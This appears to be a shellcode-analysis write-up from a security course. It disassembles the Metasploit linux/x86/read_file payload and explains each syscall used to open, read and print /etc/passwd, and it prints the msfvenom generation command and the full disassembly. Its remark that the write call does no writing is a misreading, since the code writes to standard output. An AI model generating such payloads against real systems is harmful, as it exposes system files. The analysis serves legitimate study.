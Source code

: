 # Solution

If we dump the nasm code from the payload (msfvenom -p linux/x86/read_file PATH=/etc/passwd -f raw | ndisasm -u -), here is what we can see:

    00000000  EB36              jmp short 0x38
    00000002  B805000000        mov eax,0x5
    00000007  5B                pop ebx
    00000008  31C9              xor ecx,ecx
    0000000A  CD80              int 0x80
    0000000C  89C3              mov ebx,eax
    0000000E  B803000000        mov eax,0x3
    00000013  89E7              mov edi,esp
    00000015  89F9              mov ecx,edi
    00000017  BA00100000        mov edx,0x1000
    0000001C  CD80              int 0x80
    0000001E  89C2              mov edx,eax
    00000020  B804000000        mov eax,0x4
    00000025  BB01000000        mov ebx,0x1
    0000002A  CD80              int 0x80
    0000002C  B801000000        mov eax,0x1
    00000031  BB00000000        mov ebx,0x0
    00000036  CD80              int 0x80
    00000038  E8C5FFFFFF        call 0x2
    0000003D  2F                das
    0000003E  657463            gs jz 0xa4
    00000041  2F                das
    00000042  7061              jo 0xa5
    00000044  7373              jnc 0xb9
    00000046  7764              ja 0xac
    00000048  00                db 0x00

Let's analyze the content of this step by step.

   1) 00000000  EB36              jmp short 0x38 ; Jump to 0x38 

   2) 00000038  E8C5FFFFFF        call 0x2 ; Execute 0x2

   3)  00000002  B805000000        mov eax,0x5 ; 5 is set to EAX <=> Syscall, function open selected

       00000007  5B                pop ebx ; The content of the top of the stack is set to ebx, 
                                            ; in this case, /etc/passwd).
    
![alt text](https://github.com/MrSquid25/SLAE/blob/master/Assignment%205/read_file/pop_ebx.PNG "Pop Ebx")

   4)  00000008  31C9              xor ecx,ecx ; Clearing out ecx, now is 0
       
   5)  0000000A  CD80              int 0x80 ; int open(const char *pathname, int flags); open(/etc/passwd, 0) 
   
       where EAX is 5=OPEN, EBX is etc/passwd=PATH and ECX is 0=FLAGS
   
   6) 0000000C  89C3              mov ebx,eax ; Eax is set to ebx
   
   7) 0000000E  B803000000        mov eax,0x3  ; Eax is set to 3 <=> Syscall, function read selected
   
   8) 00000013  89E7              mov edi,esp ; Top of stack set to edi;
   
   9) 00000015  89F9              mov ecx,edi ; Edi set to ecx;
   
   10) 00000017  BA00100000        mov edx,0x1000 ; Edx set to 4096 (decimal)
   
   11) 0000001C  CD80              int 0x80 Read function executed --> ssize_t read(int fd, void *buf, size_t count);
   
    EAX=3=READ,EBX=3=FD, ECX=EDI=BUF, EDX=4096=COUNT
   
   12) 0000001E  89C2              mov edx,eax ; EDX set to EAX
   
   13) 00000020  B804000000        mov eax,0x4 ; Eax to 4 <=> Syscall, function write
   
   14) 00000025  BB01000000        mov ebx,0x1 ; Ebx=1
   
   15) 0000002A  CD80              int 0x80 ; ssize_t write(int fd, const void *buf, size_t count);
 
    In this case, is just called but no writing is done.
 
   16) 0000002C  B801000000        mov eax,0x1 ; Exit called
   
   17) 00000031  BB00000000        mov ebx,0x0
   
   18) 00000036  CD80              int 0x80 ; Execution of exit 
   
